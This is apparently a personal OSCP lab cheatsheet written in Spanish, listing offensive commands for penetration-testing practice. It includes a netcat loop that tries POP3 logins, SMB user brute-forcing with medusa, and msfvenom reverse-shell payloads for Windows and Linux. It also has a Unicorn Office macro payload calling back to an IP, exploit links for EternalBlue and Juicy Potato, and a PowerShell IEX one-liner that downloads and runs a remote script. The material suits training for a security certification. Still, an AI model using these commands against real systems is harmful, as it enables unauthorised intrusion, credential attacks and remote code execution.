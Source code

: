 # Another-OSCP-Cheatsheet
Os introduzco aquí la cheatsheet personal que he ido usando durante mi recorrido por los labs del OSCP:

## POP3 enum
Este script de bash nos permite enumerar un servicio POP3 para tratar de encontrar algún correo en alguno de los usuarios que hemos encontrado en la etapa de reconocimiento:

    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
## SMB enum
**SHARES**
Analiza que shares de SMB están disponibles con un usuario invitado:

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**
Comprueba esa gigante wordlist de usuarios que has ido reuniendo durante la etapa de reconocimiento, fácil y sencillo:

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4	
## MSFVenom Payloads
**Windows Payload**  
Intercambia el x64 por x86 si estás en una máquina de 32 bits:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>
    
**Linux Payload**  
Intercambia el x64 por x86 si estás en una máquina de 32 bits:

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>

## Kernel Cross-Compiling

Especialmente útil si estás enfrentando una caja old-school que aún tiene un SO de 32 bits (créeme, hay muchiiiisimas cajas así en los labs del OSCP xd)  
Utiliza la opción --static sabiamente https://stackoverflow.com/questions/8692128/static-option-for-gcc

    gcc ¿--static? -m32 -Wl, --hash-style=both <nombre.c> -o <output>			
## MACRO PAYLOAD
**UNICORN** es una herramienta FANTÁSTICA que debes usar en tu trayecto por los labs del OSCP, si debes crear cualquier macro para una suite office, este software te va a facilitar la vida enormemente https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    
## Common Exploits
**MS17-010** Si te enfrentas a EternalBlue :) https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/  
**Juicy Potato** Si cuentas con un usuario y al hacer "whoami /priv" cuenta con privilegios SeImpersonate o SeAssignPrimaryToken... https://github.com/ohpe/juicy-potato

##Powershell invoke script

powershell "IEX(New-Object Net.webClient).downloadString('http://LABIP/file.ipp')"

## Exploit search

    searchsploit <service name>
    
## Windows Privesc Checklist

https://guif.re/windowseop  
https://www.fuzzysecurity.com/tutorials/16.html
    
